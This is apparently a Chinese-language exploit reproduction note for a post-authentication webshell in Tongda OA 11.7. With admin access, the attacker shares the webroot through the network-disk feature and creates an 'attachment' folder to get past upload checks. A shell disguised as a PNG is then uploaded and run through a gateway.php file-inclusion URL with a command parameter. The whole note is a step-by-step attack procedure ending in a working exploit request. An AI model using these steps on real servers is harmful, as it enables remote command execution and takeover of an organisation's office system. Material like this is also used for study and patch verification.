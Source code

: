 通达oa 11.7 后台getshell
========================

一、漏洞简介
------------

需要后台管理权限

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

找到网络硬盘，创建共享目录为webroot目录地址

![3.png](./.resource/通达oa11.7后台getshell/media/rId24.png)

进行权限设置

![4.png](./.resource/通达oa11.7后台getshell/media/rId25.png)

![5.png](./.resource/通达oa11.7后台getshell/media/rId26.png)

然后general在这里需要创建一个叫attachment的文件夹进行绕过

![6.png](./.resource/通达oa11.7后台getshell/media/rId27.png)

在attachment这个文件夹就可以上传png了

![7.png](./.resource/通达oa11.7后台getshell/media/rId28.png)

下面用通达万年不变的文件包含，格式为这个`https://www.0-sec.org/ispirit/interface/gateway.php?json={%22url%22:%22general/attachment/shell.php.png%22}&cmd=echo%20hhhhhh;`
